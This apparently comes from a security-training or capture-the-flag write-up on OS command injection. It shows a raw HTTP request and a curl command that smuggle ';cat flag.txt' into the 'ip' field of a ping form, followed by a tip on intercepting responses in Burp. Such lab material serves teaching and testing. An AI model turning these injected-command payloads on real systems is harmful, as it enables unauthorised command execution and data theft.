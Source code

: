 ___

# OS Command Injection

```http
POST /ping HTTP/1.1
Host: 83.136.255.79:42835
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 17
Origin: http://83.136.255.79:42835
Connection: keep-alive
Referer: http://83.136.255.79:42835/
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i

ip=1;cat flag.txt
```

```bash
curl -X POST http://83.136.255.79:42835/ping -d "ip=1;cat flag.txt"
```


## Intercepting Responses

In Burp, we can enable response interception by going to (`Proxy>Options`) and enabling `Intercept Response` under `Intercept Server Responses`

